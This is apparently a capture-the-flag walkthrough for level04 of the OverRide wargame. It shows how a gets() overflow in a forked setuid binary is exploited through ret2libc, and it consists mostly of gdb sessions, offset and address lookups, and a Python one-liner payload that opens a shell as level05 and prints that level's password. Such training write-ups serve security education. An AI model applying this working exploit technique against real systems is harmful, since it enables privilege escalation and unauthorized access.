 # Walkthrough

## Context

### Binary info

```bash
level04@OverRide:~$ ls -l
total 8
-rwsr-s---+ 1 level05 users 7797 Sep 10  2016 level04
level04@OverRide:~$ ./level04
Give me some shellcode, k
input
child is exiting...
level04@OverRide:~$ file ./level04
./level04: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x7386c3c1bbd3e4d8fc85f88744379783bf327fd7, not stripped
```

An elf binary compiled for Intel 80386 arch with level05's privileges

### Functions

```assembly
(gdb) info functions
All defined functions:

Non-debugging symbols:
...
0x08048634  clear_stdin
0x08048657  get_unum
0x0804868f  prog_timeout
0x080486a0  enable_timeout_cons
0x080486c8  main
...
```

### Variables

```assembly
(gdb) info variables
All defined variables:

Non-debugging symbols:
...
```

No global variables

### 'main' disassembly

```assembly
(gdb) disas main
Dump of assembler code for function main:
...
   0x080486d6 <+14>:    call   0x8048550 <fork@plt>
...
   0x0804875e <+150>:   call   0x80484b0 <gets@plt>
...
End of assembler dump.
```

Please refer to the [source.c](./source.c) for better understanding

So the main function uses 'fork' to clone the process. And after that the parent will just wait for child and the child will be using 'gets' function which is unprotected against buffer overflow attack. We can use it to perform a sub type of buffer overflow attack called 'return to libc' or 'ret2libc'.

## Exploit

To perform a 'ret2libc' attack we need to understand how the call stack is working. Please refer to the [explanation](https://shellblade.net/files/docs/ret2libc.pdf). Basically we need 3 address, the function that will be executed on ret address, the function that will be served as ret address to the first function and the first function arguments. We will be using 'system', 'exit' and '/bin/sh' string address for this. But firstly we need to find the offset of ret address.

### Searching ret offset

```bash
level04@OverRide:~$ gdb -q ./level04
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04
[New process 2687]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2687]
0x41326641 in ?? ()
```

Don't forget to use 'set follow-fork-mode child' to follow the chid process

Our offset is 156. So we need to fill this with trash and then with actual addresses

### Searching needed address

```bash
level04@OverRide:~$ gdb -q ./level04
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) break *main
Breakpoint 1 at 0x80486c8
(gdb) run
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486c8 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

Note how we found '/bin/sh' string with 'find' command. Turns out that such a string already present near 'system' function address.

### Getting .pass

```bash
level04@OverRide:~$ python -c "print 156 * '.' + '0xf7e6aed0'[2:].decode('hex')[::-1] + '0xf7e5eb70'[2:].decode('hex')[::-1] + '0xf7f897ec'[2:].decode('hex')[::-1]" > /tmp/hack
level04@OverRide:~$ cat /tmp/hack - | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```